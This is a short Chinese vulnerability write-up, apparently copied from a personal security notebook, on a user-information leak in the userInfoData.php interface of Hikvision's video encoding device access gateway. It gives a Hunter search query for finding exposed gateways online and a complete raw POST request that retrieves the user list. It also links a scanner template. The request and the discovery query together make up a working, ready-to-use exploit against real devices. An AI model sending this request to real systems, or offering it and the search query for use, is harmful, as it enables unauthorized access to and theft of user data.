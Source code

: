 # 海康威视视频编码设备接入网关userinfodata接口存在信息泄漏漏洞

# 一、漏洞简介
海康威视视频编码设备接入网关userinfodata接口存在信息泄漏漏洞。

# 二、影响版本
+ HIKVISION 视频编码设备接入网关

# 三、资产测绘
+ hunter：`web.title="视频编码设备接入网关"&&app.name=="Hikvision 海康威视视频编码设备接入网关"`

![1691857505004-d8663f3c-62e3-4cac-8909-21305e690fea.png](./img/qV-R5KN1BBW4A5If/1691857505004-d8663f3c-62e3-4cac-8909-21305e690fea-364641.png)

+ 登录页面

![1691857519082-eb318732-d51e-4393-89a9-7296293727ba.png](./img/qV-R5KN1BBW4A5If/1691857519082-eb318732-d51e-4393-89a9-7296293727ba-071734.png)

# 四、漏洞复现
```plain
POST /data/userInfoData.php HTTP/1.1
Host: 
Content-Length: 38
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin:
Referer:
Accept-Language: zh-CN,zh;q=0.9
Connection: close

page=1&rows=20&sort=userId&order=asc
```

![1711075731488-6717f765-229a-4079-a292-92c54ee39180.png](./img/qV-R5KN1BBW4A5If/1711075731488-6717f765-229a-4079-a292-92c54ee39180-702744.png)

[hikvision-spbmjrwg-userinfodate-info.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1711075901506-37d4c294-7138-466e-b8bb-17d265f17fe6.yaml)



> 更新: 2024-03-22 10:51:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zq2np1ubh0igzfoa>